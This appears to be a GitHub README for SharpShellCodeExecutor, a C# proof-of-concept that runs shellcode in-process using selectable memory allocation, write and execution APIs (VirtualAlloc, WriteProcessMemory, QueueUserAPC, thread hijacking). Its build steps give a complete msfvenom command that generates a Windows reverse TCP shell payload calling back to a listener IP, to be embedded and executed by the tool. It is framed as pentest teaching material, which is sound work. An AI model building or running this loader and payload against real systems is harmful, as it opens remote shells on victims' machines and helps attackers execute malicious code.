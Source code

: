 # SharpShellCodeExecutor
A POC that shows different methods of executing shellcode within the same process.

It allows specifying different options for the three steps needed to execute shellcode (in most cases).
1. Allocate memory with RWX permissions. This can be done using the Win32 API's VirtualAlloc, VirtualAllocEx, VirtualAllocExNuma , WriteProcessMemory or the native API's NtCreateSection/NtMapSectionView.
2. Write shellcode to newly allocated memory. This can be done using the API's RtlMovememory, WriteProcessMemory or via Marshal.Copy.
3. Execute. This can be done via Classic (CreateThread), Delegate (using Delegate + Function Pointers), LocalThread Highjacking (creating a new thread and pointing it's RIP to the place where the RWX shellcode is stored or using the APC User Queue + NtTestAlert.

## How to compile
First generate shellcode using msfvenom (or any other method) as a C# byte array with the variable name being shellCode.
Example:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.105 LPORT=80 -f csharp -v shellCode

And replace the variable at Program.cs (line 10) and add the static keyword to the beginning, e.g.:

 static byte[] shellCode = new byte[460] {
            0xfc,... 
            };

Then use Visual Studio to build the project.

## How to run

Run the executeable and optionally specify the following arguments to specify the memory allocation, write, and execution method.
```
ShellCodeExecutor.exe -h
ShellCodeExecutor.exe: Executes shellcode stored in shellCode variable within the same process, allows specifying the memory allocation, shellcode writing method and shellcode execution method
Arguments
         -a <Allocation_Method>: Specifies which allocation method to use. Available choices:  VirtualAlloc (Default), VirtualAllocEx, VirtualAllocExNuma, NtCreateSection
         -h : Show help menu.
         -s <ShellCode_Execution_Method>: Specifies which shellcode execution method to use. Available choices:  Classic (Default), Delegate, LocalThreadHighjack, QueueUserAPC
         -w <Write_Method>: Specifies which write method to use when writing shellcode to memory. Available choices:  WriteProcessMemory (Default), MarshalCopy, RtlMoveMemory
```
## Example run
```
ShellCodeExecutor.exe -a VirtualAllocEx -s QueueUserAPC -w RtlMoveMemory
[+] Using selected Allocation VirtualAllocEx, Write Method RtlMoveMemory, Shellcode Execution QueueUserAPC
[+] Allocating Memory
[+] Writing Shellcode to Memory
[+] Executing Memory
```
## Blog
Heres a link to blog post explaining the techniques covered in this: <a href="https://ret2desync.github.io/introduction-csharp-pentesters-part1/">here</a>
